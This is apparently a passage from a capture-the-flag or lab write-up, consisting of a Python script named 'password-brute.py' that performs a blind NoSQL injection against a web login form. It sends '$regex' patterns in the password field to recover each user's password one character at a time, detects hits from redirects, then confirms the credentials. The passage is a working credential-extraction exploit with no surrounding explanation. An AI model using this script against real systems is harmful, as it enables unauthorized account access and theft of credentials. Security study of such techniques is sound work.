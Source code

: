 ```python
p1 = log.progress("Bruteforcing")
p2 = log.progress("Username")
p3 = log.progress("Password")

print()

def brute(username):
    password = ""
    p2.status(username)

    for pos in range(1,50):
        for char in payload:
            if char in ["*", "+", ".", "?", "|", "\\"]:
                continue

            p1.status("testing [{}] on position [{}]".format(char, pos))

            post_data = {
                'username' : username,
                'password[$regex]' : '^{}{}.*'.format(password, char),
                'login' : 'login'
            }

            r = requests.post(url, data=post_data)
            status_code = re.findall(r'\d{3}', str(r.history))

            if status_code:
                password += char
                p3.status(password)
                break

        # Testing if password is valid
        post_data = {
            'username' : username,
            'password' : password,
            'login' : 'login'
        }

        r2 = requests.post(url, data=post_data)

        if 'Under Plantation' in r2.text or pos > len(password):
            p3.status("Password obtained!")
            cprint("\n[+] Credentials: {} - {}".format(username, password), 'white')
            break

if __name__ == '__main__':
    for user in users:
        brute(user)
```
{: file="password-brute.py" }
